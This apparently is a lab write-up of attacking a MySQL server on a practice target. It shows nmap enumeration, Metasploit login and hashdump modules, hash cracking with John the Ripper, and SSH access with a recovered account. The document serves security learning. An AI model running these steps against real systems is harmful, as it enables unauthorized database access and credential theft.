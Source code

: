 # MySQL

MySQL is an open-source relational database management system (RDBMS) that uses a language called SQL (Structured Query Language) to perform tasks like adding, updating, and querying data. MySQL is widely used for websites and applications, is known for being fast and reliable, and works on different operating systems.

![Pasted image 20241003122935](https://github.com/user-attachments/assets/e5d42868-e3d4-42b4-9dd1-a942e1d92bf8)

Below is a view at the conversation between client and server:

![Pasted image 20241003123018](https://github.com/user-attachments/assets/ff3078a3-b693-4c73-b472-87c6c452d738)

The process works like this: MySQL creates a database to organize data in tables, clients send requests using SQL statements, and the server responds with the requested information.

### Scope:


### Tools and Technology:
Linux, Nmap, Wireshark, MySQL, Metasploit, and John the Ripper

## Enumerating MySQL :
![Pasted image 20241003124855](https://github.com/user-attachments/assets/db6e2d27-aab5-4ac6-b7d6-cebb58c8d301)

Enumeration is the process of discovering and gathering information about network services, hosts, and their configurations. I used nmap to see what information I could gather from the target:

```
nmap -A 10.10.137.40 -nvvv
```

![Pasted image 20241003125145](https://github.com/user-attachments/assets/b6683923-409c-46e8-b9d9-a6598d0ed836)

Based on the output, I see that port 22 (SSH) and port 3306 (MySQL) are both open. I can also see information on the OS and the MySQL version that is running on the host. 

> [!IMPORTANT]  
> Version 5.x is susceptible to a user enumeration attack due to different messages during login when using old authentication mechanism from versions 4.x and earlier.

I then used one of the scripts included with nmap to enumerate MySQL:

```
nmap -p 3306 --script=mysql-enum  10.10.137.40 -nvvv
```

![Pasted image 20241003125810](https://github.com/user-attachments/assets/f5b14bf4-8305-4db6-9fc8-f40164af24a6)

Based on the output, I was able to see the list of valid usernames. 

## Wireshark:

![Pasted image 20241003132213](https://github.com/user-attachments/assets/2da4f9b4-8a19-4c67-bbad-b6378ecd38f1)

While enumerating MySQL, I also had Wireshark running to view the network traffic generated with the scan:

![Pasted image 20241003130529](https://github.com/user-attachments/assets/3be37a48-f294-4ac0-9f68-55d8291deabe)

Wireshark also shows version: 5.7.29, Ubuntu 18.04.1. Also, taking a closer look at one of the packets, I could see information on root and the password:

![Pasted image 20241003130425](https://github.com/user-attachments/assets/bb29feff-64f0-4ca9-9b3d-4b67aeec79fa)

Another observation about the traffic generated was the many connections that never established and had a short duration:

![Pasted image 20241003131447](https://github.com/user-attachments/assets/23904ef3-0b23-46f9-ab26-48f983c21771)

Another observation was the error response 1043 as seen below:
![Pasted image 20241003131314](https://github.com/user-attachments/assets/89dc25a9-c835-42d8-b3f7-3b636c62149e)

A closer look at the error:

![Pasted image 20241003131055](https://github.com/user-attachments/assets/7f009dfa-78d7-4192-a257-22dcc20601a8)

> [!IMPORTANT]  
>There are common errors related to MySQL:
> Error 1043: Often related to using the wrong protocol or an incompatible version.
> Error 1045: Typically due to incorrect username or password.
> Error 2002: Indicates that the MySQL server is not responding or cannot be found.
> Error 1146: Usually means that the pecified table does not exist in the database.

## Installing MySQL Client:

![Pasted image 20241003132047](https://github.com/user-attachments/assets/4fd85a84-f4dd-48c9-9078-02ea74e3be64)

I then installed 
sudo apt install default-mysql-client


![Pasted image 20241003130002](https://github.com/user-attachments/assets/e164d2c0-88fa-407a-9486-bece70f5b3cb)



mysql -h [IP] -u [username] -p"

mysql -h 10.10.137.40 -u root -p "password"



# Metasploit:




![Pasted image 20241003132013](https://github.com/user-attachments/assets/146172de-0367-4580-a533-618019a14fb9)



# mysql_version:


The mysql_version module, as its name implies, scans a host or range of hosts to determine the version of MySQL that is running.

```
use auxiliary/scanner/mysql/mysql_version
show options
set RHOSTS 192.168.1.200-254
set THREADS 20
 run
```


### Scanner MySQL Auxiliary Modules:




![Pasted image 20241003140152](https://github.com/user-attachments/assets/a29999ec-2daa-4f7a-b7aa-aee0750a4646)

```
use auxiliary/scanner/mysql/mysql_login
show options
set PASSWORD password
set RHOSTS 10.10.137.40
 set USERNAME root
  run

```


![Pasted image 20241003140121](https://github.com/user-attachments/assets/7ad9f83d-7766-457a-809c-cd5b54d7e815)

### Found remote MySQL version 5.7.29

5.7.29-0ubuntu0.18.04.1


![Pasted image 20241003135235](https://github.com/user-attachments/assets/f401a1bc-f174-4086-87ba-182a08fb0ffa)


![Pasted image 20241003135217](https://github.com/user-attachments/assets/7e9a1046-8cdc-415c-99a3-68450304fc79)


```

set SQL show databases
run
```


![Pasted image 20241003140442](https://github.com/user-attachments/assets/aac492e5-ab4b-464c-8312-ff9c76e02308)



![Pasted image 20241003140525](https://github.com/user-attachments/assets/c37587b3-c779-4405-986d-4e52d198434a)



# Exploiting MySQL:

 
 At this point, I was able to gain more sensitive information than just database names:

I know that :

 MySQL server credentials
 The version of MySQL running
 The number of Databases, and their names.


# Loading mysql_hashdump :


auxiliary/scanner/mysql/mysql_hashdump 


![Pasted image 20241003143211](https://github.com/user-attachments/assets/e0c232ad-5e27-45a8-8d1f-5a65e27c3d07)

```

set PASSWORD password
set USERNAME  root
set RHOTS 10.10.137.40

```

![Pasted image 20241003144109](https://github.com/user-attachments/assets/b3e71609-32e2-4725-8e8d-4f0c34a87bc1)


# John the Reaper:


![Pasted image 20241003145245](https://github.com/user-attachments/assets/b36c1cdc-2c3c-4577-8133-3451a333cda9)


Cracking hashes with John:


1. Copy all the hashes to a document.

![Pasted image 20241003143819](https://github.com/user-attachments/assets/21b5a4ff-fe4f-43a4-904e-f456e21e04bd)


john sql_hasdump.txt


![Pasted image 20241003144501](https://github.com/user-attachments/assets/351dc81e-9087-4306-b3db-88ef14a57c8a)


ssh carl@10.10.137.40


![Pasted image 20241003144429](https://github.com/user-attachments/assets/920c8bd5-4e75-4d64-88cd-ca77503f2d9b)
